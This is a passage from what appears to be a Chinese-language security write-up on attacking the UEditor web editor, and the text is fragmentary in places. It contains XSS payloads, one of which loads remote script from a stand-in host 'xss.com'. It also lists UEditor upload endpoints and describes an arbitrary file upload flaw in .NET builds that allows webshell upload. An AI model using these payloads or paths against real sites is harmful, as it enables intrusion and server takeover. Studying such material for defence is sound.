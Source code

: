 ```php
<html><head></head><body><something:script xmlns:something="http://www.w3.org/1999/xhtml">window.location.href="https://www.t00ls.net/";</something:script></body></html>
```

远程加载Js：

- 
- 
- 
- 
- 
- 
- 

```php
<html><head></head><body><something:script src="http://xss.com/xss.js" xmlns:something="http://www.w3.org/1999/xhtml"></something:script></body></html>
```

**常用的上传路径：**

- 
- 
- 
- 
- 
- 
- 
- 
- 

```php
/ueditor/index.html/ueditor/asp/controller.asp?action=uploadimage/ueditor/asp/controller.asp?action=uploadfile/ueditor/net/controller.ashx?action=uploadimage/ueditor/net/controller.ashx?action=uploadfile/ueditor/php/controller.php?action=uploadfile/ueditor/php/controller.php?action=uploadimage/ueditor/jsp/controller.jsp?action=uploadfile/ueditor/jsp/controller.jsp?action=uploadimage
```

**常用的上传路径：**

- 
- 

```php
/ueditor/net/controller.ashx?action=listfile/ueditor/net/controller.ashx?action=listimage
```

**0x03 文件上传漏洞**

**1. NET版本文件上传**

该任意文件上传漏洞存在于1.4.3.3、1.5.0和1.3.6版本中，并且只有**.NET**版本受该漏洞影响。黑客可以利用该漏洞上传木马文件，执行命令控制服务器。

![图片](https://shs3.b.qianxin.com/butian_public/f74cd3d2081a63c68e57d806bdc399ddb.jpg)

ueditor中已经下架.net版本，但历史版本中可以下载1.4.3版本，但是否是1.4.3.3目前还没验证。

![图片](https://shs3.b.qianxin.com/butian_public/f6bbc96c48298e70537a90de87d8bc18f.jpg)
